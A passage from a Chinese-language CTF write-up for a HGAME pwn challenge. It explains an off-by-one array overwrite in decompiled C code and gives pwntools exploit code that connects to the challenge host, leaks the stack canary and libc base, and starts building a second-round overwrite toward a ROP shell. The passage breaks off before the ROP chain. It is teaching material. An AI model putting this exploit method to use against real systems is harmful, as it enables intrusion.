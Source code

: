 ```c++
      break;
    puts("He or she doesn't love you.");
    if ( v4 > 0 )
      return 0;
    ++v4;
    puts("What a pity!");
    puts("I can give you just ONE more chance.");
    puts("Wish that this time they love you.");
  }
  puts("Congratulations,he or she loves you.");
  return 0;
}
```

主要漏洞点在于输入花束中花的数量的循环遍历的实际上是v7[1]---v7[17]而非v7[0]---v7[16],导致可以覆盖到_int32的v8和v9.

那么开始编写脚本.首先,我们希望泄露libc基址,其次,我们还需要得到canary值(不过这倒不是必须的).因此我们将v8设为一个能覆盖到rbp后地址的值,并使v9大于v8以结束读入循环,防止破坏栈上数据.之后,我们进入第二次机会.

```python
from pwn import *

#r=process("./vuln")
#gdb.attach(r)
r=remote("node1.hgame.vidar.club",30092)
pause()

r.sendline(b"16")
for i in range(15):
	r.recvuntil(b":")
	r.sendline(b"1")
num1=32+64*(2**32)
r.sendline(str(num1))
r.sendline(b"1")
r.recvuntil(b"Let's look at the results.")
for i in range(16):
	r.recvuntil(b"+ ")
canary=(int(r.recvuntil(b" ")[:-1]))
r.recvuntil(b"+ 1 + ")
libc_base=(int(r.recvuntil(b" ")[:-1])+2**64)%2**64-0x29D90
print(hex((canary+2**64)%2**64))
print(hex(libc_base))
```

在第二次机会中,我们使v9小于v8,然后我们将我们的rop链覆盖到返回地址,完成getshell.

```python

r.recvuntil(b"What a pity!")
r.recvuntil(b"How many flowers have you prepared this time?")
r.sendline(b"16")
for i in range(15):
	r.recvuntil(b":")
	r.sendline(b"1")

print("b1")
pause()

num2=32+16*(2**32)
r.recvuntil(b":")
r.sendline(str(num2))
print("b2")
pause()
r.recvuntil(b":")
r.sendline(str(canary))
r.recvuntil(b":")
```
